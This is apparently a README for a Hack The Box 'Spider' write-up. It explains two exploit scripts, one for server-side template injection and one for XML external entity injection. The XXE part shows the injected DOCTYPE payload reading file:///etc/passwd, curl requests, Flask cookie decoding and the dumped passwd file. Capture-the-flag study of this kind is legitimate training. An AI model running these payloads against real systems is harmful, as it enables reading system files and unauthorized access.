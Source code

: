 # Hack The Box. Machines. Spider

Machine write-up: https://7rocky.netlify.app/en/htb/spider

### `ssti.py`

This Python script is made to automate the explotation of a Server-Side Template Injection (SSTI) which appears when registering a new account at `http://spider.htb` and then reading the user profile.

We can perform the POST request using module `requests` (obviously). This request is done to `http://spider.htb/register` specifying `username`, `confirm_username`, `password` and `confirm_password` as request body.

After that, we need to catch the UUID that the server gives us. For that we can use a regular expression using module `re`.

Then, we need to access to the profile created. For that, we need to perform another POST request (this time to `http://spider.htb/login`) specifying `uuid` and `password`.

However, this POST request only sets a cookie and redirects to the main page. By using a `requests` session we can keep the cookie for next requests.

If we access `http://spider.htb/user` (with a GET request), here is where we can see the SSTI payload being executed. We know that the data is in the `username` field. Again, using a regular expression we are able to extract the data we are interested in.

Finally, we can print this result. For example:

```console
$ python3 ssti.py '{{7*7}}'
49
```

### `xxe.sh`

This Bash script automates the process of reading files from the server exploiting an XML External Entity (XXE) injection.

We need to take into account how the XXE is exploitable. First, we need a port-forwarding so that port 8080 in the remote machine is mapped to port 8888 in our attacker machine (we did not choose 8080 because Burp Suite listens on that port).

Then, we can see that the data we provide in the login process is inserted in the cookie provided by the server (use Burp Suite or the browser developer tools to check the form parameters):

```console
$ curl http://localhost:8888/login -svH 'Content-Type: application/x-www-form-urlencoded' -d 'username=7Rocky&version=1.33.7'
*   Trying 127.0.0.1:8888...
* Connected to localhost (127.0.0.1) port 8888 (#0)
> POST /login HTTP/1.1
> Host: localhost:8888
> User-Agent: curl/7.79.1
> Accept: */*
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 30
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 FOUND
< Content-Type: text/html; charset=utf-8
< Content-Length: 217
< Location: http://localhost:8888/site
< Vary: Cookie
< Set-Cookie: session=.eJxtzstqhDAAheFXKVl3YYIDHaGLhvE6GInmgtmNRKoY03QiVB3m3eumu67P-eF7ALPOBkQP8NKBCPCYJDpeGZ0KUcvFihnKXpZbl6nxxpOQpY700_rdIl3y_eNOkQt7mW8Vw1Shs204wQrijM_DVAf82A1WgblQqQsaJJbHg-yNaxsrlNgTz1M3cZRvzBZGZBqpZKi6lCxEDqOA__Xa9-Zzq-dlFGiFR4-r-Ofwubac1L012muBbYf-_uXpBk17eA7fW8gu5KrnfOeNfwfPV-C-Rrt4EAXPX_HQWOc.YXPYog.GJtBaEqASFJ3QxKY08rhwi3v5NQ; HttpOnly; Path=/
< 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
* Connection #0 to host localhost left intact
<p>You should be redirected automatically to target URL: <a href="/site">/site</a>.  If not click the link.
```

To extract the data contained in the cookie, we can make use of module `flask_unsign` (you can install it with `pip`):

```console
$ python -m flask_unsign --decode --cookie '.eJxtzstqhDAAheFXKVl3YYIDHaGLhvE6GInmgtmNRKoY03QiVB3m3eumu67P-eF7ALPOBkQP8NKBCPCYJDpeGZ0KUcvFihnKXpZbl6nxxpOQpY700_rdIl3y_eNOkQt7mW8Vw1Shs204wQrijM_DVAf82A1WgblQqQsaJJbHg-yNaxsrlNgTz1M3cZRvzBZGZBqpZKi6lCxEDqOA__Xa9-Zzq-dlFGiFR4-r-Ofwubac1L012muBbYf-_uXpBk17eA7fW8gu5KrnfOeNfwfPV-C-Rrt4EAXPX_HQWOc.YXPYog.GJtBaEqASFJ3QxKY08rhwi3v5NQ'
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjMzLjcgLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPjdSb2NreTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+', 'points': 0}

$ echo PCEtLSBBUEkgVmVyc2lvbiAxLjMzLjcgLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPjdSb2NreTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+ | base64 -d
<!-- API Version 1.33.7 -->
<root>
    <data>
        <username>7Rocky</username>
        <is_admin>0</is_admin>
    </data>
</root> 
```

So we have control of the `version` and the `username` field. To perform a XXE we need to insert an entity at the top of the XML document. The entity definition can be placed in the `version` parameter (after closing the comment tag). Then, in the `username` field we can call the entity.

This is the document we want to be generated:

``xml
<!-- API Version 1.33.7 -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<!-- Pwned -->
<root>
    <data>
        <username>BEGINTAG
&xxe;
ENDTAG</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

Notice that `BEGINTAG` and `ENDTAG` are placed to use `grep` and extract the relevant data (which will be rendered in `&xxe;`).

This parameters must be placed in a `curl` POST request to `http://localhost:8888/login` as data. We are interested in the cookie that the server returns. That is why we use verbose mode and use `grep` and `sed` to get the exact value of a valid Cookie header.

This data of `&xxe;` will be rendered in the website, so we can use `curl` to `http://localhost:8888/site` providing the cookie obtained before.

Finally, using `grep` we can filter the file contents. This is done by obtaining the line numbers where `BEGINTAG` and `ENDTAG` are in the HTTP response. Then we can print the data between those numbers using `sed`.

For example, we can show `/etc/passwd`:

```console
$ bash xxe.sh /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
chiv:x:1000:1000:chiv:/home/chiv:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```
